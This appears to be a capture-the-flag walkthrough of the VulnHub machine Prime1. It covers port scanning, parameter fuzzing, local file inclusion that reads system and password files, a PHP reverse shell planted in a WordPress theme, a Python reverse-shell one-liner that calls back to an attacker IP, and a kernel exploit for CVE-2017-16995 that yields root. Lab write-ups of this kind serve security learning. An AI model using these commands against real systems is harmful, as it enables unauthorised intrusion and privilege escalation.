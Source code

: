 ```yaml
---
layout : post
title: Prime1 Writeup
image : prime-1.png
date: 2021-07-22 10:18 +0530
tags: [WordPress Exploitation ,Kernel Exploit 4.10.0-28-generic , Parameter Fuzzing , LFI ] 
---
```


In this walkthrough, we will be exploiting this machine using WordPress. However, it is necessary to enumerate thoroughly to obtain the WordPress credentials. Moreover, for privilege escalation (PE), this machine is vulnerable to a kernel exploit. We may encounter rabbit holes in our journey, including brute-forcing the victor password. Once we gain access to the machine, we notice that the sudo executable is available but has not been used to gain a root shell.  

# Nmap

```
nmap -sCV -p- -vvv 10.0.2.104
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 03:02 BST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
Initiating Ping Scan at 03:02
Scanning 10.0.2.104 [2 ports]
Completed Ping Scan at 03:02, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:02
Completed Parallel DNS resolution of 1 host. at 03:02, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 03:02
Scanning 10.0.2.104 [65535 ports]
Discovered open port 22/tcp on 10.0.2.104
Discovered open port 80/tcp on 10.0.2.104
Completed Connect Scan at 03:02, 31.15s elapsed (65535 total ports)
Initiating Service scan at 03:02
Scanning 2 services on 10.0.2.104
Completed Service scan at 03:02, 6.11s elapsed (2 services on 1 host)
NSE: Script scanning 10.0.2.104.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.16s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
Nmap scan report for 10.0.2.104
Host is up, received syn-ack (0.054s latency).
Scanned at 2021-07-22 03:02:02 BST for 38s
Not shown: 65533 closed ports
Reason: 65533 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8d:c5:20:23:ab:10:ca:de:e2:fb:e5:cd:4d:2d:4d:72 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcSVb7n0rTb58TfCcHJgtutnZzqf0hl48jPxI+VHOyhiQIihkQVkshhc8LdnSUg2BRGZL+RFfNLan9Q6FY0D7T/7PMlggPtSLU80er3JJO+XMfO3NURgMtVtKS0m+nRbL9C/pKSgBewxIcPk7Y45aXjAo7tsSoJ3DZUDcaitfFbAlr+108VBSx/arOXbYtusI1E2OCj1v/VKgVA9N/FL/OHuloOZPs/hY0MoamQKy+XYNdyCtrvSeRmItf09YXhFJwfY9Tr/nk077J7cz3r3INP+AFrpKVjdUAtxNpb+zAJLMJY8WF7oRZ1B8Sdljsslkh8PPK8e6Z4/rlCaJYW0OX
|   256 94:9c:f8:6f:5c:f1:4c:11:95:7f:0a:2c:34:76:50:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiCXK7fYpBhJbT1KsyJkcpdXc1+zrB9rHVxBPtvA9hwTF4R4dZCZI9IpMFrperU0wqI/8uGYF9mW8l3aOAhJqc=
|   256 4b:f6:f1:25:b6:13:26:d4:fc:9e:b0:72:9f:f4:69:68 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMKMh3392Cf8RmKX5UyT6C1yLIVbncwwUg1i2P7/ucKk
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: HacknPentest
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:02
Completed NSE at 03:02, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.96 seconds

```

# Enumeration 

Web Enumeration 

using drib , we found secret.txt

![]({{site.baseurl}}/img/vulnhub/prime1/text.png)

so from above hint lets start fuzzing the parameter on php pages

```
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hw 12 --hc 404 http://10.0.2.104/index.php?FUZZ=something
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.2.104/index.php?FUZZ=something
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                
=====================================================================

000000341:   200        7 L      19 W       206 Ch      "file"  
```

so we find that file a paremeter , now lets fuzz for any lfi 

![]({{site.baseurl}}/img/vulnhub/prime1/location.png)


thwn we can movw to image.php there we'll fuzz for lfi 

![]({{site.baseurl}}/img/vulnhub/prime1/etc.png)

yes now we have the right lfi , and also it mentioned that there is a password file at /home/saket directory 

![]({{site.baseurl}}/img/vulnhub/prime1/lfi2.png)

now we have the passwd , lets try to use for wordpress 

# Exploitation 

now its easy to get into machine via wordpress

lets inject the php code into a file which returns us a reverse shell

![]({{site.baseurl}}/img/vulnhub/prime1/secret.png)

need to curl the phpfile to get a reverseshell

```
curl http://10.0.2.104/wordpress/wp-content/themes/twentynineteen/secret.php
```

nice we get a reverse shell

```
nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.0.2.93] from (UNKNOWN) [10.0.2.104] 43204
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 22:10:13 up  1:43,  1 user,  load average: 0.05, 0.17, 0.18
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guest-gy tty7     :0               21:10    2:04m  2.74s  0.22s /sbin/upstart --user
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export RHOST="10.0.2.93";export RPORT=5555;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

# PrivilageEsclation 

Kernal exploit 

```

uname -a
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```

this version is vulnerable to kernal exploit 

[Here is the link to the kernal exploit ](https://github.com/kkamagui/linux-kernel-exploits/tree/master/kernel-4.10.0-28-generic/CVE-2017-16995)

```
www-data@ubuntu:/tmp$ gcc explit.c -o exploit
gcc explit.c -o exploit
www-data@ubuntu:/tmp$ ./exploit
./exploit
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff92c47b659200
[*] Leaking sock struct from ffff92c47745f800
[*] Sock->sk_rcvtimeo at offset 592
[*] Cred structure at ffff92c4789396c0
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff92c4789396c0
[*] credentials patched, launching shell...
# whoami
whoami
root

```
